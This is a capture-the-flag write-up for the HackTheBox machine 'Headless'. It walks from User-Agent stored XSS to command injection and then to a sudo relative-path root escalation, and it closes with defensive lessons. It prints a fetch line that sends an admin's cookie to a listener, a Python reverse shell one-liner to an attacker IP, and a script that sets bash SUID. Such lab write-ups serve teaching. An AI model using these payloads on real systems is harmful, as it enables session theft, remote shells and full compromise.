




<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Debian 12), **Difficulty:** Medium, **Released:** 2024-04-06, **IP:** `10.10.11.8` , `headless.htb`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Flask app on `:5000` sets an `is_admin` cookie. `/support` is a contact form whose submissions are shown to an admin, and it reflects request headers into that view.
2. Put an **XSS payload in the `User-Agent`** of a `/support` POST. When the admin opens the report it fires and exfiltrates their `is_admin` cookie (`ImFkbWluIg...`).
3. With the admin cookie, `/dashboard` has a "generate report" `date` field that is **OS command injectable** (`commix`). Get a reverse shell as **`dvir`**.
4. `dvir` may `sudo /usr/bin/syscheck` (NOPASSWD). It calls **`./initdb.sh`** by relative path, so drop a malicious `initdb.sh` in your CWD and run `sudo syscheck`. Root.

</div>

<div class="callout callout-key">

**Credentials and Flags**


| Where | Value |
| --- | --- |
| admin `is_admin` cookie (stolen via XSS) | `ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0` |
| `user.txt` | `/home/dvir/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

Headless turned out to be a clean three-stage chain once I understood what each layer was actually doing: **stored XSS in an admin-only view** to steal a session cookie, **command injection** in an admin feature to turn that session into a shell, and a **relative path call inside a `sudo` script** to finish the job as root. The XSS is the piece I find most worth dwelling on, because it broke my usual assumption about where to look for a reflection. The `/support` form does not render anything back to *me* as the submitter, it renders to an admin who reviews submissions later on, and critically, that review view includes my `User-Agent` header alongside the form data. That single detail turns the `User-Agent` header into a stored XSS sink aimed squarely at a privileged user rather than at myself, and it is a pattern I have seen show up again and again in real bug bounty programs: support ticket viewers, admin audit logs, "recent visitors" widgets, anywhere metadata about a request gets displayed back to staff without being sanitized first. The privilege escalation, by contrast, is about as textbook as they come: a root-owned script that calls `./initdb.sh` using a relative path instead of an absolute one, from whatever directory happens to be current when it runs.

I have covered this same shape of vulnerability across a few other boxes, so cross-referencing is worthwhile here. For stored XSS leading to session theft, see [Cat](/writeups/hackthebox/linux/medium/cat/), [Usage](/writeups/hackthebox/linux/easy/usage/), and **Kitty v2**. For command injection through an unsanitized parameter, [Nocturnal](/writeups/hackthebox/linux/easy/nocturnal/), [Previse](/writeups/hackthebox/linux/easy/previse/), and [TwoMillion](/writeups/hackthebox/linux/easy/twomillion/) all walk through variations of it. And for the relative path / PATH hijack trick against a `sudo` script specifically, I hit the same bug class in [Previse](/writeups/hackthebox/linux/easy/previse/), [Magic](/writeups/hackthebox/linux/medium/magic/), and [Lookup](/writeups/tryhackme/linux/easy/lookup/).

---

## Full Walkthrough

I started, as I always do, by getting the target resolvable in the browser and confirming what I was actually looking at: the site lives at `http://headless.htb:5000`.

### Nmap scan

```bash
nmap -vv -sC -sV -T4 headless.htb -Pn
```

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2
5000/tcp open  http    Werkzeug/2.2.2 Python/3.11.2
|   Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
```

Nmap's service fingerprint for port 5000 dumped the entire HTML response, which I trimmed down for readability, but the one line that jumped out immediately was the `is_admin` cookie being set in the response headers. That is a strong early signal that this application has some kind of role-based logic driven by a cookie value, which is exactly the sort of thing I want to poke at.

With the scan complete, I was looking at a fairly narrow attack surface: just two open services, port `5000` running a Flask/Werkzeug web application and port `22` for SSH. That meant the web app was clearly where the intended path lived.

### Web enumeration

```bash
nikto -h http://headless.htb:5000/
```

```console
+ Server: Werkzeug/2.2.2 Python/3.11.2
+ Cookie is_admin created without the httponly flag
+ Allowed HTTP Methods: HEAD, OPTIONS, GET
```



Nikto's finding matched what I had already spotted in the nmap output: a cookie called `is_admin` was being set. I base64-decoded the first segment and got back `"user"`, which strongly implied an admin session would decode to `"admin"` instead, so the whole authorization model appeared to hinge on that single value. My first thought was to just forge the cookie myself, but the value is signed (that second, dot-separated segment is a signature), so editing the payload directly would just invalidate it. I would need to get my hands on a genuine admin cookie rather than fabricate one. The good news for that plan was sitting right there in the nikto output too: the cookie has **no `HttpOnly` flag** set, which means client-side JavaScript can read it straight out of `document.cookie` if I could ever get script execution in an admin's browser.



Before jumping to XSS, I worked through the form fields manually with some basic HTML injection and XSS probes, mostly to get a feel for the app's input filtering. The obvious payloads tripped a "hacking attempt detected" style block, which told me there was at least some naive filtering in place on the form body fields themselves.



That filtering pushed my thinking toward SSRF and XSS as the two most promising directions. Since the application has no visible database to attack, I reasoned that the interesting behavior had to be in how the app *processes and displays* requests rather than in anything it stores. I referenced [this article](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) on cookie theft via XSS to sharpen my approach, and from there I put together a payload targeting the **`User-Agent`** header of a `/support` POST request, on the theory that a header value might not be run through the same filter as the visible form fields.

<div class="callout callout-note">

**Why the User-Agent works**

The reasoning that led me here was straightforward once I laid it out: `/support` accepts a contact form, and those submissions get queued up for an admin to review later at `/dashboard`. Crucially, that admin-facing review view displays request metadata, including the `User-Agent` header, alongside each submission. The developers clearly thought to filter the visible body fields against injection, but they never considered that a header value flowing into the same page needed the same treatment. That oversight makes the `User-Agent` a **stored XSS sink that only ever fires inside the admin's browser**, never mine, which is exactly why my earlier manual testing against the form fields kept getting blocked while this vector sailed through untouched. Paired with the missing `HttpOnly` flag on the session cookie, a simple `fetch('http://you/?c='+document.cookie)` payload is enough to ship the admin's signed `is_admin` cookie straight back to a listener I control.

</div>

```http
POST /support HTTP/1.1
Host: headless.htb:5000
User-Agent: 
Content-Type: application/x-www-form-urlencoded

fname=baphomet&lname=lastname&email=baph%40gmail.com&phone=1111111111&message=test
```

I fired off the payload and set up a listener, and I did not have to wait long before the admin's automated review process triggered it:

```console
10.10.11.8 - - "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1"
```

Decoding `ImFkbWluIg` confirmed it was the value `"admin"`, exactly what I was hoping for. I dropped that cookie into my browser's session storage in place of my own, and just like that I was browsing the application as an administrator.

### Command injection in /dashboard

With admin access in hand, I went looking for functionality that only an admin would have access to, and the `/dashboard` page had a "generate report" control built around a `date` field.



Given that the backend was a simple Python/Flask application and this feature looked like it was almost certainly shelling out to generate its report, command injection was the very first thing I wanted to rule in or out:

```bash
commix -r request.lst --level=3 --smart --all --batch
```

```console
[info] POST parameter 'date' appears to be injectable via (results-based) classic command injection technique.
  |_ 2023-09-15;echo CKMGVA$((0+34))$(echo CKMGVA)CKMGVA
```

<div class="callout callout-note">

**What the report generator does**

My read on this is that the dashboard is shelling out to something like `python3 report.py "$date"`, or a `bash` one-liner that greps through logs filtered by the supplied date. Either way, the `date` value is clearly being concatenated straight into a command string rather than passed as a proper argument, which means a value like `2023-09-15; <command>` closes out the intended command with the semicolon and then runs whatever I append after it. I let `commix` do the heavy lifting of confirming and weaponizing this rather than crafting a manual payload by hand, since it automates both the detection and the process of dropping into an interactive `os_shell` once it confirms the injection. From that shell, a short Python reverse shell one-liner was enough to upgrade to a stable, interactive shell running as the user `dvir`.

</div>

```bash
commix(os_shell) > python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.178",9001));[os.dup2(s.fileno(),f) for f in (0,1,2)];subprocess.call(["/bin/sh","-i"])'
```

### Privilege Escalation, relative path in a sudo script

As a foothold user, checking my own `sudo` privileges is always one of the first things I do, since it directly tells me whether there is a sanctioned path to root already carved out for me.

```console
dvir@headless:~$ sudo -l
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

`dvir` could run `/usr/bin/syscheck` as root with no password prompt, which meant the entire security question came down to what that script actually does. I read it in full before running it with elevated privileges, which is a habit I would recommend to anyone: never execute a privileged binary blind just because `sudo -l` says you can.

```bash
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then exit 1; fi
# ... prints kernel time, disk space, load ...
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```

<div class="callout callout-note">

**The bug**

Reading through this line by line, I noticed that every single command in `syscheck` is invoked with a full absolute path, `/usr/bin/pgrep`, `/usr/bin/echo`, except one glaring exception: `./initdb.sh`. That relative reference is the whole vulnerability. When `syscheck` is run via `sudo` from a directory I control, `./initdb.sh` resolves against my current working directory rather than some fixed system location, so it happily executes *my* file with root privileges. It is worth noting that `secure_path` in `sudoers` would not have saved this script even if it had been configured more strictly, because that setting only governs `PATH`-based lookups for bare command names. An explicit relative path like `./initdb.sh` sidesteps `PATH` resolution entirely and goes straight to the current directory.

</div>

Exploiting this was just a matter of placing my own `initdb.sh` somewhere I had write access, making sure that was my working directory when I invoked `sudo`, and letting the script do the rest.

```bash
cd /tmp
printf '#!/bin/bash\nchmod u+s /bin/bash\n' > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck
/bin/bash -p
# id -> euid 0
cat /root/root.txt
```

That was it, root shell secured and the flag was mine.

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/dvir/user.txt` |
| `root.txt` | `/root/root.txt` |

---

## Lessons and Takeaways

Stepping back from the individual steps, a handful of broader principles stood out to me from this box:

- **Any place user input is shown to a privileged user is a stored XSS target**, and that includes vectors people forget to think about like the `User-Agent` and `Referer` headers, not just visible form fields. Log viewers, support ticket panels, and "recent activity" widgets all deserve the same output-encoding scrutiny as user-facing pages.
- **Set `HttpOnly` and `Secure` on every session cookie, without exception.** I could not forge the signed `is_admin` cookie directly, but that protection meant nothing once client-side script could just read it out of `document.cookie` and hand it to me anyway. Signing solves integrity, not confidentiality.
- **Never concatenate user input into a shell command.** Whether it is a date field, a username, or anything else, pass arguments to subprocesses as discrete parameters rather than building a string. If validation is unavoidable, something as narrow as a strict `YYYY-MM-DD` regex on a date field would have closed this off completely.
- **Use absolute paths for every command inside a privileged script**, and set an explicit `PATH` at the top rather than trusting the caller's environment. A single relative reference like `./initdb.sh` is all it takes to undo an otherwise carefully written script.
- **A `sudo` NOPASSWD entry on a script makes that script part of your threat model, full stop.** I always read a privileged script end to end before running it, because the moment `sudo -l` shows me an entry, that binary's logic is something an attacker (or a curious pentester) will scrutinize just as closely as any other piece of code on the box.

---

## Related Writeups

- **Stored XSS to session / privileged action:** [Cat](/writeups/hackthebox/linux/medium/cat/), [Usage](/writeups/hackthebox/linux/easy/usage/), **Kitty v2**
- **Command injection via unsanitised parameter:** [Nocturnal](/writeups/hackthebox/linux/easy/nocturnal/), [Previse](/writeups/hackthebox/linux/easy/previse/), [TwoMillion](/writeups/hackthebox/linux/easy/twomillion/)
- **Relative path / PATH hijack in a `sudo` script:** [Previse](/writeups/hackthebox/linux/easy/previse/), [Magic](/writeups/hackthebox/linux/medium/magic/), [Lookup](/writeups/tryhackme/linux/easy/lookup/)
- **`commix` for OS command injection:** [Nocturnal](/writeups/hackthebox/linux/easy/nocturnal/)

## References

- Exploiting XSS to steal cookies (pswalia2u) <https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e>
- commix <https://github.com/commixproject/commix>
- OWASP Command Injection <https://owasp.org/www-community/attacks/Command_Injection>
